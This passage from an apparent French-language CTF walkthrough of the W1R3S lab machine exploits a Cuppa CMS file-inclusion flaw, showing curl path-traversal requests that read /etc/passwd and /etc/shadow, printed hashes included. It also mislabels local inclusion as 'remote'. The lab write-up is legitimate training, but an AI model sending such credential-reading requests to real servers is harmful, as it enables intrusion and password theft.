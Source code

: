 ![Affichage de l'image w1r3s_cuppaCMS.png](images/w1r3s_cuppaCMS.png)

En revanche, la première occurrence de ```Cuppa CMS``` dans Google est une vulnérabilité décrite sur le site [Exploit-DB](https://www.exploit-db.com/exploits/25971/). Il s'agit d'une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) via le fichier ```alertConfigField.php``` et son paramètre ```urlConfig```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système.

```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/passwd
--snip--
   <div id="content_alert_config" class="content_alert_config">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```

À ma grande surprise, il est également possible de consulter le fichier ```/etc/shadow```, qui contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd) et qui n'est censé être accessible que par root !

```console
root@blinils:~# curl http://192.168.56.101/administrator/alerts/alertConfigField.php --data urlConfig=../../../../../../../../etc/shadow
--snip--
    <div id="content_alert_config" class="content_alert_config">
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
--snip--
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
--snip--
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```
